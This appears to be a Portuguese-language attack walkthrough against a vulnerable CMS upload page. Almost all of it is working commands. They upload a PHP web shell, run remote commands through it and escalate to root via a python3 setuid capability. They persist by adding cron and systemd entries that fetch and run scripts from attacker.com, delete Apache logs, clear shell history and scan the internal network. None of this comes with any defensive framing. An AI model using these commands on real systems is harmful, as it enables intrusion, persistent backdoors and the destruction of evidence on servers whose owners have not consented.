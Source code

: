 ### **Ambiente Alvo**

- CMS vulnerável (`/upload.php`) permitindo upload de arquivos `.php`.
- Sem validação MIME ou extensão no lado servidor.
- `open_basedir` desativado, e funções `shell_exec`, `system` e `passthru` habilitadas.

---

### **Upload do Web Shell**

```bash
curl -F "file=@cmdproxy.php" http://alvo.com/upload.php
```

> _Dica:_ sempre testar extensões alternativas como `.php3`, `.phtml` se o filtro padrão estiver bloqueando `.php`.

---

### **Descoberta do Caminho do Shell**

Use um _fuzzer_ ou analise o comportamento do CMS para identificar onde os arquivos são salvos:

```bash
curl http://alvo.com/uploads/cmdproxy.php?cmd=id
```

---

### **Execução Remota de Comandos**

Agora podemos enviar comandos arbitrários:

```bash
curl "http://alvo.com/uploads/cmdproxy.php?cmd=whoami"
curl "http://alvo.com/uploads/cmdproxy.php?cmd=uname -a"
```

---

### **Escalada de Privilégios**

Buscando vetores locais:

```bash
curl "http://alvo.com/uploads/cmdproxy.php?cmd=find / -perm -4000 -type f 2>/dev/null"
```

Ou fuzz básico de capabilities:

```bash
curl "http://alvo.com/uploads/cmdproxy.php?cmd=getcap -r / 2>/dev/null"
```

Se encontrar algo como `/usr/bin/python3.8 = cap_setuid+ep`, você pode escalar:

```bash
curl "http://alvo.com/uploads/cmdproxy.php?cmd=python3 -c 'import os; os.setuid(0); os.system(\"/bin/bash\")'"
```

---

### **Estabelecendo Persistência Temporária**

#### Opção A: **Cron Job**

```bash
curl "http://alvo.com/uploads/cmdproxy.php?cmd=echo '* * * * * root curl http://attacker.com/rev.sh | bash' >> /etc/crontab"
```

#### Opção B: **Systemd Drop-in**

```bash
curl "http://alvo.com/uploads/cmdproxy.php?cmd=echo '[Service]\nExecStartPost=curl http://attacker.com/backdoor.sh | bash' >> /etc/systemd/system/apache2.service.d/backdoor.conf"
```

---

### **Limpando Pegadas**

```bash
curl "http://alvo.com/uploads/cmdproxy.php?cmd=rm -f /var/log/apache2/access.log"
curl "http://alvo.com/uploads/cmdproxy.php?cmd=history -c"
```

---

### **Pivoting e Lateral Movement**

Utilize o shell para enumerar redes internas:

```bash
curl "http://alvo.com/uploads/cmdproxy.php?cmd=ip a"
curl "http://alvo.com/uploads/cmdproxy.php?cmd=netstat -anp"
```

Scans internos via netcat ou bash loop:

```bash
curl "http://alvo.com/uploads/cmdproxy.php?cmd=for i in {1..254}; do ping -c 1 192.168.1.\$i | grep '64 bytes'; done"
```
